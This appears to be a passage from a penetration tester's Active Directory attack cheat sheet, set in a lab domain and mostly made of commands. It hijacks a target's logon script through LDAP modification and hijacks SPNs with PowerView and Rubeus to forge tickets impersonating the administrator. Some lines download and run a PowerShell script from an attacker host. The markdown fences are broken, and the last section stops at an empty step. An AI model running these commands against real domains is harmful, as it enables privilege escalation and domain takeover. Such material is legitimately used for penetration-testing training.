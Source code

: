 ```bash

# scriptPath
ldapsearch -LLL -H ldap://10.129.229.224 -x -D 'own_user@inlanefreight.local' -w 'SecurePassJul!08' -b "DC=inlanefreight,DC=local" "(sAMAccountName=target)" scriptPath

# logon script and smbclient put
vim logon.bat
```
Modify
```bash
# logonScript.ldif
dn: CN=target,CN=Users,DC=inlanefreight,DC=local
changetype: modify
replace: scriptPath
scriptPath: targetScripts\logon.bat
```
```bash
ldapmodify -H ldap://10.129.229.224 -x -D 'own_user@inlanefreight.local' -w 'pass' -f logonScript.ldif
```

#### Hijack SPN
WriteSPN, WriteProperty, GenericWrite and Delegate
```powershell
##### Ghost
```powershell
# Hijack Ghost
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/Get-ConstrainedDelegation.ps1
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.15.96/Get-ConstrainedDelegation.ps1')
Get-ConstrainedDelegation -CheckOrphaned
# WriteSPN
Get-DomainObjectAcl -Identity target_PC | ?{$_.ActiveDirectoryRights -eq 'WriteProperty'}
# SPN memo
Get-DomainComputer target_PC | Select-Object -ExpandProperty serviceprincipalname

# Set SPN
Set-DomainObject -Identity target_PC -Set @{serviceprincipalname='dhcp/Ghost_PC'} -Verbose

# Get Ticket
.\Rubeus.exe s4u /domain:inlanefreight.local /user:OWN_PC$ /rc4:OWN_PC /impersonateuser:administrator /msdsspn:"dhcp/Ghost_PC" /nowrap
.\Rubeus.exe tgssub /ticket:<ghost_ticket> /altservice:cifs/target_PC /nowrap
.\Rubeus.exe ptt /ticket:<new_ticket>
```
##### Live Hijack
```powershell
# Delegation
## Get Hijack PC
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.15.96/Get-ConstrainedDelegation.ps1')
Get-ConstrainedDelegation
# WriteSPN
## Hijack PC
Get-DomainObjectAcl -Identity Hijack_PC | ?{$_.ActiveDirectoryRights -eq 'WriteProperty'}
## target_PC
Get-DomainObjectAcl -Identity target_PC | ?{$_.ActiveDirectoryRights -eq 'WriteProperty'}
# SPN memo
(Get-DomainComputer Hijack_PC).serviceprincipalname

# Clear SPN
Set-DomainObject -Identity Hijack_PC -Clear 'serviceprincipalname' -Verbose
# Set SPN
```